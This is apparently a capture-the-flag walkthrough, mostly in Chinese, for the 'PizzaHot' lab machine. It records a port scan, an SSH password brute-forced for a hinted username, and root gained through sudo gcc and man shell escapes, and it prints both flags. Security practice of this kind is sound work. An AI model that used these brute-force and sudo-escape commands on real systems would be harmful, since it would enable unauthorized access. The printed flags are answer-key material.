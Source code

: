 # PizzaHot

2025.03.06 https://thehackerslabs.com/pizzahot/

[video](https://www.bilibili.com/video/BV1vkRAYVEKm/?spm_id_from=333.1387.upload.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

80 web 源代码发现提示：Puedes creer que hay fanáticos de la pizza de piña que se ponen de usuario pizzapiña 说有个用户名 pizzapiña , 没有 vhost 也没发现其他目录，发现了这个提交邮件的连接 http://pizzahot.thl/forms/contact.php 和 http://pizzahot.thl/forms/book-a-table.php 但是都没什么信息暴露出来。

只好先用 pizzapiña 爆破下 ssh 登陆密码：

```
[22][ssh] host: 192.168.5.39   login: pizzapiña   password: steven
```

进行 ssh 登陆, sudo -l 发现 (pizzasinpiña) /usr/bin/gcc 切换到这个用户：

```
sudo -u pizzasinpiña gcc -wrapper /bin/sh,-s .
```

进入到 home，拿到 user flag:

```
$ cat user.txt
30b8126445b2c50488528c8a78416b0d
```

再次 sudo -l 显示：

```
(root) NOPASSWD: /usr/bin/man
(ALL) NOPASSWD: /usr/bin/sudo -l
```

可以直接提到 root：

```
sudo man man
!/bin/sh
```

拿到 root flag：

```
# cat root.txt
b41668f520aa366c275391ddd0a47683
```
